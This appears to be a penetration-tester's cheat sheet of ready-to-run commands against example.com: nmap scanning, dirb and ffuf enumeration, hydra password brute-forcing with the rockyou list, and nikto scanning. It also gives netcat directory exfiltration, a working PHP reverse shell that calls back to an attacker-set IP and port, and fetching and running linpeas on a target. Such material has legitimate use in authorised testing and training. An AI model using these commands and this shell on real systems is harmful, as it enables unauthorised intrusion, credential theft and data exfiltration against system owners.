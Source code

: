 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 1000 -oN nmap_output.txt example.com
```

## Directory enumeration with `dirb`:
```bash
dirb http://example.com /usr/share/wordlists/dirb/common.txt -o dirb_output.txt
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://example.com -H "Host: FUZZ.example.com" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Login brute-force with `hydra`:
### Syntax 1
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```
### Syntax 2
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt example.com http-post-form "/login:username=^USER^&password=^PASS^=:F=Bad"
```

## Web app scan with `nikto`:
```bash
nikto -h example.com -p 80 -o nikto_output.txt
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc example.com 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

# Archive
### Compress:
```bash
tar -czvf archive.tar.gz /path/to/directory_or_file
```
### Extract:
```bash
tar -xzvf archive.tar.gz -C /path/to/extract
```

## PHP reverse shell
```bash
nc -lvnp 4444
```
```php
<?php
$ip = 'x.x.x.x'; // change this to your IP address
$port = 4444; // change this to your listening port
$socket = fsockopen($ip, $port);
if ($socket) {
    $shell = 'uname -a; w; id; /bin/sh -i';
    fwrite($socket, $shell);
    while (!feof($socket)) {
        $command = fgets($socket);
        $output = '';
        if ($command) {
            $output = shell_exec($command);
            fwrite($socket, $output);
        }
    }
    fclose($socket);
}
?>
```

## Download and serve `linpeas`
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
